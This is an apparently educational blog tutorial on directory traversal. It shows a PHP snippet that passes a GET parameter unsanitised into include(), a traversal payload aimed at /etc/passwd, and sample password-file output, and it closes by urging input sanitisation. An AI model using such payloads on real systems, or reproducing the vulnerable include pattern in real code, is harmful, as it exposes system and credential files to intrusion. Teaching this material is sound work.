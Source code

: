 ```yaml
---
title: "Directory Traversal"
excerpt: "A guide on how to exploit directory traversal vulnerabilities."
categories:
  - Web Exploits
tags:
  - Hacking
  - Web Security
  - Web Exploitation
  - Learning
---
```



Directory Traversal is a security vulnerability that occurs when an
application accepts user input to construct a directory path but fails to
properly sanitize or sandbox the input. This vulnerability can allow an
attacker to traverse up and down the directory structure of the file system
and access files they shouldn't have access to.

Consider this PHP code that allows the user to choose what page to load from a
**GET** parameter:

```php
<?php
   $page = $_GET['page']; // index.php
   include("/var/www/html/" . $page);
   ?>
```
Under normal operation, the page would be "`index.php`". However, if a
malicious user were to submit a different value for the "`page`" parameter,
such as "`../../../../../../../../etc/passwd`", the code could be manipulated
to load the "`/etc/passwd`" file instead of the intended file.

```php
<?php
   $page = $_GET['page']; // ../../../../../../../../etc/passwd
   include("/var/www/html/" . $page);
   ?>
```

In this example, the user is submitting
"`../../../../../../../../etc/passwd`". This will cause the PHP interpreter to
leave the directory that it is coded to look in ("`/var/www/html`") and
instead be forced up to the root folder. Ultimately, this will become
"`/etc/passwd`" because the computer will not go a directory above its top
directory.

The application will then load the "`/etc/passwd`" file and output something
of the following to the user:

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
vnstat:x:101:102:vnstat:/var/lib/vnstat:/bin/false
redis:x:102:103:redis:/var/lib/redis:/bin/false
```

The concept of directory traversal can be applied to any application that
accepts input from a user to construct a file path. This vulnerability can be
exploited to gain unauthorized access to sensitive data, such as configuration
files, application source code, or user data, by manipulating the input to
traverse to directories outside of the intended scope.

Attackers can use the obtained data to launch further attacks, such as
extracting credentials, injecting malicious code, or launching phishing
campaigns. Therefore, it is critical to properly sanitize and validate user
input to prevent directory traversal attacks and ensure the security of the
application and the system it runs on.